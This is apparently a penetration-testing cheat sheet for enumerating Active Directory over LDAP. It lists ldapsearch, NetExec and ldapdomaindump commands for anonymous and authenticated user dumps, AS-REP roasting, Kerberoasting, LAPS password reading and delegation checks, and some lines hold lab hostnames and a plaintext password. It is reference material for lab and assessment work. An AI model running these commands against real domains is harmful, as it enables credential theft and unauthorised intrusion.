 # (389) LDAP

<details>

<summary>ldapsearch</summary>

```bash
# Get all users
ldapsearch -x -H ldap://<IP> -D '<Domain>\<User>' -w '<Password>' -b 'DC=security,DC=local'

# Get all users and cleanup output
ldapsearch -x -H ldap://<IP> -D '<Domain>\<User>' -w '<Password>' -b 'DC=security,DC=local' | grep userPrincipalName | sed 's/userPrincipalName: //'

# Without credentials
ldapsearch -x -H ldap://<IP> -b 'DC=security,DC=local'
ldapsearch -x -H ldap://<IP> -b 'DC=security,DC=local' | grep userPrincipalName | sed 's/userPrincipalName: //'
```

</details>

<details>

<summary>nxc</summary>

<pre class="language-bash"><code class="lang-bash">nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host> --admin-count
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --asreproast ASREPROAST
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --groups

nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --kerberoasting KERBEROASTING
<strong>nxc ldap dc1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --kerberoasting hash
</strong>
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --password-not-required
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --trusted-for-delegation
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --users

# Modules
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host> -M get-desc-users
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host> -M laps
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host> -M ldap-signing
</code></pre>

</details>

<details>

<summary>ldapdomaindump</summary>

```bash
# With Credentials
ldapdomaindump -u security.local\\<User> -p '<Password>' ldap://<IP>

# Without credentials
ldapdomaindump ldap://<IP>

# LDAP With SSL/TLS
ldapdomaindump -u sequel.htb\\sql_svc -p 'REGGIE1234ronnie' ldaps://10.10.11.202
```

</details>
